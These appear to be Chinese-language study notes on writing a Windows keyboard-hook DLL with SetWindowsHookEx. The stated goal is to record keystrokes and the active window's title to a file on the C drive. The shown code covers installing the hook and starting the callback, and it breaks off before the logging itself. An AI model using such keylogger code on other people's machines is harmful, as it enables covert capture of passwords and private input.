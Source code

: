 
`HINSTANCE hmod`，实例句柄
可以用`GetModuleHandle(L"Dll-hook")`拿到对应进程实例句柄


## 实例
### hook键盘获取输入：
看视频学习的，[b站学习网站(√)](https://www.bilibili.com/video/BV194411i71t?from=search&seid=9177458908484689415)


键盘钩子，获取输入的字符和当前输入框的标题栏，写入文件，放在c盘
里面比较坑的地方是，我用win10，没办法直接在C盘中写东西，参考[csdn](https://blog.csdn.net/lewky_liu/article/details/84594637)解决


idea和操作系统版本：vs2019，win10 1909
**step1:**
vs中新建一个空白解决方案，然后在其中创建两个项目，一个是windows应用程序，一个是dll程序
![image.png](https://cdn.nlark.com/yuque/0/2020/png/2212593/1597290385887-79abe42f-3e9b-40f0-9ddf-d8b996d6ed66.png#align=left&display=inline&height=804&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1607&originWidth=600&size=80232&status=done&style=none&width=300)
dll-hook是写我们要hook的关键逻辑，keyboard只是一个启动dll的win程序
**step2:**
dll中定义一个hook函数 
我现在framwork.h中添加两行来导出这个hook函数
```cpp
extern "C" _declspec(dllexport) bool Hook();
bool Hook();
```
在dllmain.cpp中写Hook函数的主要逻辑，其中的DllMain函数不动就好
```cpp
bool Hook() {
    hHook = SetWindowsHookEx(
        WH_KEYBOARD,
        hookproc,
        GetModuleHandle(L"Dll-hook"),
        NULL
    );
    if (hHook == NULL) return false;
    MessageBox(NULL, L"钩子装好了", L"提示", NULL);
    return true;
}
```
安装好钩子我给自己一个tips，来一个弹窗，那行可以不要
需要注意的是hookproc是一个回调函数，按上面写的操作，我在framwork.h中添加一行代码
```cpp
LRESULT CALLBACK hookproc(int code, WPARAM wParam, LPARAM lParam);
```
然后就是hook我要进行的操作编写在这个hookproc函数中
主要是，获取输入框标题栏，获取输入的字符，写入文件
```cpp
LRESULT CALLBACK hookproc(int code, WPARAM wParam, LPARAM lParam) {
    //MessageBox(NULL, L"有人按键了", L"钩子处理函数", NULL);
    // 拿到当前操作窗口的标题
    //      先拿到当前操作窗口的句柄
    HWND hWnd = ::GetActiveWindow();//获取当前活动窗口
    if (hWnd == NULL) {
        // 如果当前无活动窗口，获取顶层窗口
        hWnd = ::GetForegroundWindow();
        if (hWnd == NULL) {
            // 如果啥窗口都没，那他按键不记录了
            // 下一次再次调用hook
            return CallNextHookEx(hHook,code,wParam, lParam);
        }
    }
    //      从句柄中拿到标题
    char windowsTestBuff[256] = { 0 };
    GetWindowTextA(hWnd, windowsTestBuff, 255);
```